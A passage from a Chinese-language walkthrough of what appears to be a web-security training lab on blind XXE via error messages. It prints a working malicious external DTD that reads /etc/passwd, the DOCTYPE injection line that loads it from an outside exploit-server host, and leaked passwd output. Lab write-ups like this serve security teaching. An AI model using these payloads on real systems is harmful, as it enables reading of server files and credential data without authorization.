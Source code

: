 此DTD执行以下步骤：  
```
1、定义名为的XML参数实体file，包含的内容/etc/passwd文件。
2、定义名为的XML参数实体eval，包含另一个XML参数实体的动态声明，该实体名为error。该error将通过加载一个不存在的文件（该文件的名称包含file实体。
3、使用eval实体的动态声明，它将导致error要执行的实体。
4、使用error实体，以便通过尝试加载不存在的文件来计算其值，从而生成包含不存在的文件的名称的错误消息，该文件是/etc/passwd文件。

```  
1. 调用恶意的外部DTD将导致出现如下错误消息：  
  
```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin

```  
### 实验6：盲XXE-错误消息  
  
**实验目标：**  
- 此实验室具有一个 “Check stock（库存检查）” 功能，它可以解析 XML 输入，但不会显示结果。  
  
- 若要解决实验室问题，请使用外部 DTD 触发错误消息，显示/etc/passwd  
文件的内容。  
  
- 本实验包含一个链接，指向另一个域中的漏洞利用服务器，你可以在该域中托管恶意 DTD 。  
  
上传DTD文件  
  
单击"Go to exploit server"（转到利用漏洞服务器）并将恶意DTD文件保存在您的服务器上。 该载荷会读取/etc/passwd  
的文件内容，然后将其附加到路径/nonexistent/内容  
当中，最后访问该路径。然而在文件系统上，该路径并不存在，所以将会触发一个错误。  
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;

```  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlhT2CTwa53APJvwpCRhpRtxtbXmUMKBVLR9uOwsjZ7TAS7aGnQTX1pA/640?wx_fmt=png&from=appmsg "")  
XXE注入  
  
在XML声明和stockCheck元素之间插入以下外部实体定义：  
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
 
我的是：
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://caqzol3ftwtlzbcs1zmtf6u7dyjp7kv9.oastify.com/exploit"> %xxe;]>

```  
  
成功触发路径错误 “文件没有找到” ，错误信息中包含了/etc/passwd  
文件的内容。![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjl5UeTTswu04y2nLF56AJG7BuuhdZZwGRzRYdia1PsiaF3fqDeibyF4wsYQ/640?wx_fmt=png&from=appmsg "")  
  
